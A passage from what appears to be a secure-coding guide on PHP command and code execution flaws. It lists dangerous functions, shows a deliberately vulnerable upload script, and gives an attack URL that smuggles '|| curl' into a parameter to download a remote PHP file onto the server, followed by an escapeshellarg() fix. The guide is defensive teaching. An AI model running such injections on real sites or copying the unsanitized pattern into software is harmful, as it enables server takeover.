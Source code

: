 ##5) Remote Command Execution
####Affected PHP Functions
- exec
- passthru
- system
- shell_exec
- `` (backticks)
- popen
- proc_open
- pcntl_exec

####Vulnerable Code

upload_picture.php
```php
<?php
$user_id = $_GET['user_id'];
$path = dirname(__FILE__).'/'.$user_id;
if (!file_exists($path)){
	system('mkdir '.$path);
}
// upload picture
?>
```
####Attack
- Pass arguments with || or && then system commands
	- http://localhost/command/upload_picture.php?user_id=1 || curl -K https://raw.githubusercontent.com/vinothzomato/zpwned/master/lfd/download_invoice.php -o test.php

####How to fix
- Use escapeshellarg() and escapeshellcmd()

upload_picture_fixed.php
```php
<?php
$user_id = $_GET['user_id'];
$path = dirname(__FILE__).'/'.$user_id;
if (!file_exists($path)){
	system('mkdir '.escapeshellarg($path));
}
// upload picture
?>
```

##6) Remote Code Execution
####Affected PHP Functions
- eval
- assert
- preg_replace // with /e in regex
- create_function
- $$, extract & parse_str with one parameter
- dynamic function
- ReflectionFunction
- unserialize
- functions with callbacks for example (array_map, usort, ob_start & preg_replace_callback etc)
